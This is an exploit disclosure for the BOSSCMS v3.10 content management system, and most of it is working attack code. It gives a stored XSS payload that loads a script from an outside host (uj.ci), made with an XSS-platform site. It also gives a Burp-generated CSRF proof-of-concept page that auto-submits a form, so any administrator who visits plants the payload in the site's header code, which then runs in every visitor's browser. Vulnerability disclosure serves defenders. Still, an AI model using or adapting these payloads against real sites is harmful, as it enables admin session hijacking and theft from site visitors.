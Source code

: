 # BOSSCMS has CSRF and storage-optimized XSS

**Exploit Title:** BOSSCMS has CSRF and storage-optimized XSS

**Date:** 2024-04-01

**Exploit Author:** shuo sheng,jixin zhang

**Vendor Homepage:** https://gitee.com/Greenpeas/BOSSCMS

**Software Link:** https://gitee.com/Greenpeas/BOSSCMS/archive/refs/tags/V3.1202310281625.zip

**Version:** Bosscms v3.10

bosscms xss link:https://github.com/ss122-0ss/BOSSCMS/blob/main/readme.md



csrf

In name="head_code" or name="foot_code", add payload, the payload here is

```
<sCRiPt sRC=//uj.ci/szi></sCrIpT>
```

payload can be generated at https://xssaq.com/



![image-20240403102952903](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240403102952903.png)

Put the HTML in a CSRF. In HTML, an administrator access to the http://127.0.0.1/csrf.html page, will automatically trigger modify code, triggering payload

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1/bosscms1/admin/?mold=site&part=code&func=add" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="head&#95;code" value="&lt;sCRiPt&#32;sRC&#61;&#47;&#47;uj&#46;ci&#47;szi&gt;&lt;&#47;sCrIpT&gt;" />
      <input type="hidden" name="foot&#95;code" value="test" />
      <input type="hidden" name="head&#95;mobile&#95;code" value="" />
      <input type="hidden" name="foot&#95;mobile&#95;code" value="" />
      <input type="hidden" name="csrftoken" value="sk92ef5fq7e14j0lcm" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20240403103230900](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240403103230900.png)

